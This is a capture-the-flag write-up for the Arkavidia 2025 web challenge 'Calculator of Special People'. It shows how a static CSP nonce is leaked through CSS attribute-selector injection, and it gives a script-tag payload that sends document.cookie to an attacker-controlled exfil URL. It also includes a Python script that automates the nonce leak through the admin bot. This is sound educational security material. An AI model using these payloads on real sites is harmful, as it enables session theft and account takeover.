



import FlagBox from '@site/src/components/FlagBox';
import ChallengeInfo from '@site/src/components/ChallengeInfo';

# Calculator of Special People

<ChallengeInfo
  author="dovodedomo"
  points={919}
  difficulty="Easy"
  solves={10}
  description="Steal the cookie, like how Minji steals hearts."
  chall="/files/arkavidia-2025/calculator-of-special-people/dist.zip"
/>
<FlagBox>ARKAV\{NONcE_0F_US_IS_AS_SMART_AS_ALL_OF_US\}</FlagBox>
## Chall Details 📝
| Aspects     | App         | Bot           |
| :---        | :---        | :---          |
| Language    | Node.js     | Node.js       |
| Port        | 8020        | 8021:80       |

## Goal 🏁
Steal the flag, which is placed as the admin bot's cookie.

## Endpoints 🕸️
- `/report` : The admin bot's page.  
  The `/report` page is accessible from the outside network, and it contains the flag in the form of a cookie.  
  An input text field is provided to report a url. The bot will then access the url and report back the response.  
  <u>The flag could be stolen through XSS (Cross-site scripting).</u>
  
  :::tip
  A challenge with a flag in the form of a cookie of an admin bot is usually an **XSS challenge**.
  :::

- `/` : The main page of the calculator.  
  This page is only accessible from the local network, so you need to access it through the bot.
  ```nginx title="proxy.conf"
  server {
    listen 80;
    absolute_redirect off;

    location /report/ {
        proxy_pass http://bot/;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location / {
        deny all; # prevent access from outside network
        proxy_pass http://app:8020/;
        proxy_buffering off;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Host $host;
        proxy_set_header X-Forwarded-Port $server_port;
    }
  }
  ```
  If we analyze it locally using the provided source code, we can see that the page is protected by a CSP (Content Security Policy).
  ```html title="/app/html/index.html"
  ... snip ...
  <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{{nonce}}'; style-src 'self' 'unsafe-inline'; frame-src 'none'; object-src 'none'; base-uri 'self'; media-src 'self'; font-src 'self';">
  ... snip ...
  ```
  From the snippet above, we can conclude that the app is <u>vulnerable to CSS Injection</u>, since style-src is set to `unsafe-inline`.

  Every partnerName input is reflected to the DOM. If we could bypass the CSP, we could inject a script to steal the cookie. 
  

## Solution 💡
  Notice how there's a `nonce` in the CSP header. Typically, `nonce` is randomized for every request.
  However, in this case, the `nonce` is static. This means that we can inject a script with the `nonce` value as the `nonce` attribute.
  
  But, how do we get the `nonce` value?
  We can get the `nonce` value by utilizing CSS Injection.  
  The `nonce` is not just located in the `meta` tag, but also hidden in the `input` field.
  ```html
  <style>
    input[name="nonce"]{display:block!important;}
    input[name="nonce"][value^="{test_prefix}"]{background:url({exfil_url}?q={test_prefix});}
  </style>'
  ```

  Using this approach, if exists a `nonce` value that starts with `{test_prefix}`, the background image will be loaded from `{exfil_url}?q={test_prefix}`.
  We can check from our server (either webhook.site or `python -m http.server 8000` + ngrok) if the request is made. If the request is made, we can extract the `nonce` value from the `q` parameter.

  Do this for enough time, and the `nonce` value will be revealed.  
  

  After we get the `nonce` value, we can inject a script to steal the cookie.
  ```html
  <script nonce="arvAK9">
    fetch('{exfil_url}?c='+document.cookie);
  </script>
  ```
  :::note
  `exfil_url` is the URL where the `nonce` value is exfiltrated.
  :::

  After the script is injected, the cookie will be sent to the webhook/http server.

  

## Script 💻
The following script loops through all printable ASCII characters to exfiltrate the `nonce` value.
However, the script is interactive, so you need to input whether the character is correct or not.  
You may call it semi-bruteforce, i guess?
```python
import time
import requests
import urllib.parse
import string

# ----- Injector Setup -----
base_url = ""  # Base URL of the target application
target_url = f"{base_url}/report/"
base_injection_url = "http://app:8020/"
headers = {}

charset = string.printable.strip()  # All printable ASCII characters
exfil_url = "" # URL to exfiltrate the nonce value

def send_payload(prefix, candidate):
    """Send a payload for a given character at the next position."""
    test_prefix = prefix + candidate
    css_payload = (
        f'<style>'
        f'input[name="nonce"]{{display:block!important;}}'
        f'input[name="nonce"][value^="{test_prefix}"]{{background:url({exfil_url}?q={test_prefix});}}'
        f'</style>'
    )
    injection = base_injection_url + "?partnerName=" + urllib.parse.quote(css_payload)
    data = {"url": injection}

    print(f"[*] Trying candidate '{candidate}' (prefix: {test_prefix})")
    try:
        resp = requests.post(target_url, headers=headers, data=data, timeout=5)
        print(f"    Sent payload; status: {resp.status_code}")
    except Exception as e:
        print(f"    Error sending payload for '{candidate}': {e}")

    time.sleep(1)  # 1-second delay to prevent rate limiting

# Loop to keep testing different prefixes
while True:
    prefix = input("\n[?] Enter known prefix (or leave empty to exit): ").strip()
    if not prefix:
        print("[-] Exiting.")
        break

    for candidate in charset:
        send_payload(prefix, candidate)

        # Ask for user input before proceeding
        user_input = input(f"[?] Was '{candidate}' correct? (y/n): ").strip().lower()
        if user_input == 'y':
            prefix += candidate  # Append the correct character
            print(f"[+] Updated prefix: {prefix}")
            break  # Move to the next position
        elif user_input == 'n':
            continue  # Try the next candidate

    print(f"[*] Current prefix: {prefix} - Proceeding to next character.")
```